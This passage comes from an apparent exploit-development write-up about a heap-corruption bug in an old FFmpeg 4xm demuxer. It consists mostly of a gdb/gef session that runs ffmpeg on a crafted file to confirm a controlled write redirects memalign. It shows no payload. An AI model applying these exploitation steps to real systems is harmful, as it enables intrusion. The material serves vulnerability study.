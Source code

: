 The final step to confirming exploitability would be to run the program and ensure that after our controlled write subsequent calls to memalign lead to address 0xffffffff. 

```
Num     Type           Disp Enb Address    What
4       breakpoint     keep y   0x080aaeec in fourxm_read_header at libavformat/4xm.c:178
6       breakpoint     keep n   0x083f073e in av_mallocz at libavutil/mem.c:62
        breakpoint already hit 1 time
gef➤  r -i dracula.4xm
Starting program: /home/ryuk/Documents/spring18/ffmpeg_bhd/i686/ffmpeg/ffmpeg -i dracula.4xm
FFmpeg version git-6a5d31a, Copyright (c) 2000-2009 Fabrice Bellard, et al.
  configuration: --disable-stripping --extra-cflags=-z execstack
  libavutil     49.12. 0 / 49.12. 0
  libavcodec    52.10. 0 / 52.10. 0
  libavformat   52.23. 1 / 52.23. 1
  libavdevice   52. 1. 0 / 52. 1. 0
  built on May 31 2018 17:48:47, gcc: 4.8.4

Breakpoint 4, 0x080aaeec in fourxm_read_header (s=0x881d330, ap=0xffffd350) at libavformat/4xm.c:178
178     libavformat/4xm.c: No such file or directory.
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────[ registers ]────
$eax   : 0x084ef134  →  0xf7e11310  →  <posix_memalign+0> push ebx
$ebx   : 0x00000128
$ecx   : 0x084ef134  →  0xf7e11310  →  <posix_memalign+0> push ebx
$edx   : 0xc213bc4d
$esp   : 0xffffd1a0  →  0x00000004
$ebp   : 0x8d3725a9
$esi   : 0x08826400  →  "LISTt"
$edi   : 0x088263c0  →  0x00000280
$eip   : 0x080aaeec  →  <fourxm_read_header+668> mov DWORD PTR [esp+0x20], ecx
$eflags: [carry parity adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$ds: 0x002b  $ss: 0x002b  $fs: 0x0000  $es: 0x002b  $gs: 0x0063  $cs: 0x0023
───────────────────────────────────────────────────────────[ stack ]────
0xffffd1a0│+0x00: 0x00000004     ← $esp
0xffffd1a4│+0x04: 0x0000003c ("<"?)
0xffffd1a8│+0x08: 0x00000001
0xffffd1ac│+0x0c: 0x0000000f
0xffffd1b0│+0x10: 0x084ef048  →  0xf7e0f470  →  <free+0> push ebx
0xffffd1b4│+0x14: 0xf7ec3c5d  →  <__memset_sse2_rep+269> add ebx, 0x3dc83
0xffffd1b8│+0x18: 0x088263c0  →  0x00000280
0xffffd1bc│+0x1c: 0x000002e6
───────────────────────────────────────────────────────[ code:i386 ]────
    0x80aaedf <fourxm_read_header+655> lea    edx, [ebp+ebp*4+0x0]
    0x80aaee3 <fourxm_read_header+659> lea    ecx, [edx*4+0x0]
    0x80aaeea <fourxm_read_header+666> add    eax, ecx
 →  0x80aaeec <fourxm_read_header+668> mov    DWORD PTR [esp+0x20], ecx
    0x80aaef0 <fourxm_read_header+672> mov    ecx, DWORD PTR [esi+ebx*1+0xc]
    0x80aaef4 <fourxm_read_header+676> mov    DWORD PTR [esp+0x24], edx
    0x80aaef8 <fourxm_read_header+680> mov    DWORD PTR [eax+0x10], ecx
    0x80aaefb <fourxm_read_header+683> mov    ecx, DWORD PTR [esi+ebx*1+0x24]
    0x80aaeff <fourxm_read_header+687> mov    DWORD PTR [eax+0x8], ecx
─────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "ffmpeg", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────[ trace ]────
[#0] 0x80aaeec → Name: fourxm_read_header(s=0x881d330, ap=0xffffd350)
[#1] 0x8083069 → Name: av_open_input_stream(ic_ptr=0xffffd34c, pb=0x8826340, filename=0xffffd70f "dracula.4xm", fmt=0x84f0fe0 <fourxm_demuxer>, ap=0xffffd350)
[#2] 0x808b0d4 → Name: av_open_input_file(ic_ptr=0xffffd34c, filename=0xffffd70f "dracula.4xm", fmt=0x84f0fe0 <fourxm_demuxer>, buf_size=0x0, ap=0xffffd350)
[#3] 0x807b335 → Name: opt_input_file(filename=<optimized out>)
```